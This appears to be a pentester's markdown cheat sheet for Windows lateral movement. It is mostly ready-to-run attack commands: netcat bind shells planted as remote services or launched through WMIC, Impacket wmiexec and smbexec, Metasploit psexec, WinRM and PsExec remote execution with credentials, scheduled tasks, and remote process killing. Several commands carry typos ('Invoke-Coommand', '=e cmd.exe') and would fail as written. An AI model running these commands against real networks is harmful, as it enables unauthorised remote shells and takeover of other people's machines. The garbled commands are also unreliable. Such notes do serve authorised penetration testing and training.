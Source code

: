 # Lateral Movement
## Windows
### Bind Shell as a service
```cmd
sc \\machinename create ncservice binpath= "cmd.exe /k c:\tools\nc.exe -nvlp 2222 -e cmd.exe"
```
### Bind shell with WMIC - Local Machine
```cmd
wmic /node:machinename process call create "c:\tools\nc.exe -nvlp 4444 -e cmd.exe" 
```
### Bind shell with WMIC - Remote Machine
```cmd
wmic /node:machinename /user:username /password:Password process call create "c:\tools\nc.exe -dnvlp 4444 -e cmd.exe" 
```
### wmiexec.py
```bash
wmiexec user:pass@<IP>
```
### smbexec.py - not interactive
```bash
smbexec user:pass@<IP>
```
### smbclient.py
```bash
smbclient hitbox/user:pass@<IP>
```
### lookupsid
```bash
lookupusersid hitbox/user:pass@<IP>
```
### meterpreter
```bash
use exploit/windows/smb/psexec
set smbuser
set smbpass
set smbdomain
set rhost
set lhost
```

### Winrm and Powershell Remoting
#### Test if WinRM is Running
```powershell
Test-WSMan -ComputerName <hostname>
```
#### Test if WinRM Port is Open
```powershell
Test-NetConnection -ComputerName <hostname> -CommonTCPPort WINRM
```
#### Run command on the system with passthrough authentication
```powershell
Invoke-Coommand -ComputerName <hostname> -port 5985 -ScriptBlock {Command}
```
#### Run command on the system with Alternate Credentials = GUI
```powershell
$cred = Get-Credential
Invoke-Coommand -ComputerName <hostname> -port 5985 -Credential $cred -Authentication Negotiate -ScriptBlock {Command}
```
#### Run command on the system with Alternate Credentials = GUI
```powershell
$cred = New-Object System.Management.Automation.PSCredential ('Username', ConvertTo-SecureString 'Password' -AsPlainText -Force)
Invoke-Coommand -ComputerName <hostname> -port 5985 -Credential $cred -Authentication Negotiate -ScriptBlock {Command}
```
#### Exploit Winrm
```cmd
winrs -r:10.10.10.10 -u:>domain\user> -p:<passwd> <command>
```

### SMB
#### Set up a session with SSO
```cmd
net use \\<target>
```
#### Set up a session with credentials
```cmd 
net use \\<target> <password> /u:<user>
```
#### Mount a Share
```cmd
net use * \\<target>\<share> <passwd> /u:<machine>\<user>
```
#### drop an SMB session
```cmd
net use \\<target_ip> /del
```
#### drop ALL SMB session
```cmd
net use * /del /y 
```

### Controlling Services with SC
#### find service names with wmic
```cmd
wmic service where (displayname like "%<service>%") get name
```
#### find service names with services.msc
```cmd
services.msc
```
#### list all on the local system
```cmd
sc query
```
#### list all Services
```cmd
sc query state= all
```
#### list services on a remote machine
```cmd
sc \\<target_IP> query
```
#### list details for a parcitular service
```cmd
sc qc <service_name>
```
#### start a service
```cmd
sc start <service_name>
```
#### start a service - if start_type= disabled
```cmd
sc config <service_name> start= demand
```
#### stop a service
```cmd
sc stop <service_name>
```
#### Invoke an Executable
```cmd
net use \\<target> <passwd> /u:<user>
sc \\<target> create <svcname> binpath= <command>
sc \\<target> start <svcname>
```
#### Invoke an executable more suitable
```cmd
sc \\<target> create <svcname> binpath= "cmd.exe /k C:\tools\nc.exe -L -p 2222 =e cmd.exe"
```

### PsExec
```cmd
psexec <\\computer,computer2,... | @file> <options> <"command arguments"> 
```
|option|description|
|---|---|
|-c|copy executable to remote machines
|-f|force copy (for overwrite)
|-h|run in elevated context
|-u user|specify a username
|-p pass|Specify a username and password
|-s| run as SYSTEM
|-i| run interactively

### Metasploit
```cmd
use exploit/windows/smb/psexec
```

### Schedule tasks
#### setup
```cmd
net use \\<target> <passwd> /u:<user>
sc \\<target> query schedule
net time \\<target>
```
#### Create schtask
```cmd
schtasks /create /tn <taskname> /s <target> /u user /p pass /sc <freaquency> /st <start_time> /sd <start_date> tr <command>
```
```cmd
at \\<target> <HH:MM><A|P> <command>
```
#### Check stats
```cmd
schtasks /query /s <target>
```
```cmd
at \\<target>
```

### WMIC
#### Invoke a program
```cmd
wmic /node:machinename /user:<usesr> /password:<passwd> process call create <command>
```
#### List processes
```cmd
wmic /node:machinename /user:<usesr> /password:<passwd> process list brief
```
#### Kill a process by PID
```cmd
wmic /node:machinename /user:<usesr> /password:<passwd> process where processid=" <PID>" delete
```
#### Kill a process by name
```cmd
wmic /node:machinename /user:<usesr> /password:<passwd> process where name=" <name>" delete
```